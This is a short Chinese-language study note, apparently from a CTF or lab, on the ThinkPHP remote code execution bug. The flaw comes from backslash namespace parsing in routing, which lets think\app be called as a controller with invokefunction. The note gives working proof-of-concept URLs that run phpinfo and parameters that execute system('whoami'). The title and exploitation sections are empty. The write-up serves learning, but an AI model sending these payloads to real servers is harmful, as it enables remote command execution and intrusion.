




# 題目






# 漏洞原因

> thinkPHP中反斜杠的作用是  类库\命名空间

**thinkphp路由解析规则** 

> index.php/模块/控制器/操作/参数


# POC原理

**poc**

```php
http://host/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
    
http://host/index.php?s=/index/\think\app/invokefunction&function=phpinfo&vars[0]=-1
```

php误让`think\app` 成为控制器。并使用其` invokefunction` 方法。并传给该方法如下参数

```php
function = call_user_func_array
vars[0] = system
vars[1][] = whoami
```


其中代码`ReflectionMethod::invokeArgs() `的功能是使用数组给方法传送参数，并执行该方法。

$vars = -1要写。不清楚是什么作用


# 漏洞利用





